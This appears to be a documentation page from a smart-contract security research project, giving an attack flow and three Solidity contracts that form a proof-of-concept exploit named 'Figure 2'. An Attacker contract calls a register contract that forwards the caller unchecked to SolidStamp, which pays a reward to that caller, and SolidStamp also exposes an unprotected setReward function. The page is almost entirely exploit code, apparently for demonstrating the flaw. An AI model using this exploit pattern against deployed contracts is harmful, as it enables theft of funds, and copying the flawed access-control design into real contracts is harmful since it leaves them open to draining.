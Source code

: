 ########################
Exploits of Figure 2
########################

**Attack Flow**

Attacker -> SolidStampRegister -> SolidStamp --trasfer ethers--> Attacker

**Attacker Contract**

.. code-block:: Solidity
    :linenos:

    contract Attacker {
        address solidStampRegister;
        uint count=0;
        
        function setAddress ( address _solidStampRegister ) public payable
        {
            solidStampRegister = _solidStampRegister;
        }
        
        function attak() public 
        {
            
            SolidStampRegister(solidStampRegister).registerAudit("Hello");
        }
        
        constructor() payable public {}
        
        function () public payable {}
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }


**SolidStampRegister Contract**

.. code-block:: Solidity
    :linenos:

    contract SolidStampRegister {
        address solidStamp;
    
        function setAddress  ( address _solidStamp ) public payable
        {
            solidStamp = _solidStamp;
        }
        
        function registerAudit( bytes32 _codehash) public 
        {
        
            SolidStamp(solidStamp).audContract(msg.sender);
        }
        
        function () public payable {}
        
        constructor() payable public {}

        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }


**SolidStamp Contract**

.. code-block:: Solidity
    :linenos:

    contract SolidStamp {
        uint [3] Rewards = [0,0,0];
        address SolidStampRegisterAddress;

        constructor (address _SolidStampRegisterAddress ) public payable
        {
            SolidStampRegisterAddress = _SolidStampRegisterAddress;
        }

        modifier onlyRegister() {
            require(msg.sender == SolidStampRegisterAddress, "can be only run by SolidStampRegister contract");
            _;
        }
    
        function audContract( address _auditor ) public onlyRegister
        {
            uint reward = Rewards[2];
            _auditor.transfer(reward);
        }
        
        function () public payable {}

        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }

        function setReward(uint t) public payable
        {
            Rewards[2] = t;
        }
    }


**Running Screenshots**

.. image:: attack02.jpg
    :width: 650px
    :align: center